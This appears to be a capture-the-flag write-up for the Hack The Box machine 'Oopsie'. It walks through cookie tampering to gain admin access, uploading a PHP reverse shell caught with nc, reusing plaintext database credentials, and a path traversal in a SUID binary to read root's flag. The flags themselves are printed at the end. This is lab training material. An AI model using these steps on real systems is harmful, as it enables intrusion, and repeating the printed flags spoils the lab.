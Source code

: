 # Oopsie

---

IP = `10.129.125.109`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

http://10.129.125.109/cdn-cgi/login/admin.php?content=accounts&id=2

Access ID	Name	Email
2233		guest	guest@megacorp.com

http://10.129.125.109/cdn-cgi/login/admin.php?content=accounts&id=1

Access ID	Name	Email
34322		admin	admin@megacorp.com

http://10.129.125.109/cdn-cgi/login/admin.php?content=uploads

```
GET /cdn-cgi/login/admin.php?content=uploads HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cache-Control: max-age=0
Connection: keep-alive
Cookie: user=2233; role=guest
Host: 10.129.125.109
Referer: http://10.129.125.109/cdn-cgi/login/admin.php?content=uploads
Upgrade-Insecure-Requests: 1
```

change the cookie 
Cookie: user=2233; role=guest
Cookie: user=34322; role=admin

```
GET /cdn-cgi/login/admin.php?content=uploads HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cache-Control: max-age=0
Connection: keep-alive
Cookie: user=34322; role=admin
Host: 10.129.125.109
Referer: http://10.129.125.109/cdn-cgi/login/admin.php?content=uploads
Upgrade-Insecure-Requests: 1
```

Upload the php-reverse-shell.php

`nc -lnvp 4444`

load the `http://10.129.125.109/uploads/php-reverse-shell.php`

Got shell!

```
www-data@oopsie:/var/www/html/cdn-cgi/login$ ls
admin.php  db.php  index.php  script.js
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
www-data@oopsie:/var/www/html/cdn-cgi/login$
```

`robert : M3g4C0rpUs3r!`

```
www-data@oopsie:/var/www/html/cdn-cgi/login$ su robert
Password:
robert@oopsie:/var/www/html/cdn-cgi/login$
```

```
robert@oopsie:~$ find / -group bugtracker 2>/dev/null
/usr/bin/bugtracker
robert@oopsie:~$ ls -la /usr/bin/bugtracker
-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker
robert@oopsie:~$ /usr/bin/bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 0
---------------

cat: /root/reports/0: No such file or directory

robert@oopsie:~$ /usr/bin/bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: ../root.txt
---------------

af13b0bee69f8a877c3faf667f7beacf

robert@oopsie:~$

```

> user.txt

`f2c74ee8db7983851ab2a96a44eb7981`

> root.txt

`af13b0bee69f8a877c3faf667f7beacf`